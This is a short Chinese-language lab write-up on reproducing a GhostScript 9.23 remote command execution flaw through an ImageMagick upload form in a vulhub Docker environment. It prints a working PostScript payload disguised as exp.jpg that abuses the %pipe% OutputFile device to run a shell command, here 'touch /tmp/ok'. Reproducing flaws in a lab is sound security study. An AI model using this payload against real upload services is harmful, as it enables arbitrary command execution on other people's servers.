


# GhostScript命令执行

靶机系统：ubuntu 16.04

## 0x01 搭建漏洞环境

漏洞环境（其中包括最新版 GhostScript 9.23、ImageMagick 7.0.8）
`vulhub的/ghostscript/9.23-rce 有这两个环境`

```
cd vulhub/ghostscript/9.23-rce
docker-compose up -d
```

## 0x02 漏洞复现


访问`http://192.168.96.130:8080/`将可以看到一个上传组件。


构造一个exp.jpg的文件，内容为：
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/ok) currentdevice putdeviceprops
```

将改文件上传，将执行命令`touch /tmp/ok`
进入容器查看`docker-compose exec web bash`，可以看到ok文件被创建了：



成功

## 0x03 参考链接

```
https://github.com/vulhub/vulhub/blob/master/ghostscript/9.23-rce/README.md
https://bbs.ichunqiu.com/thread-44747-1-1.html
````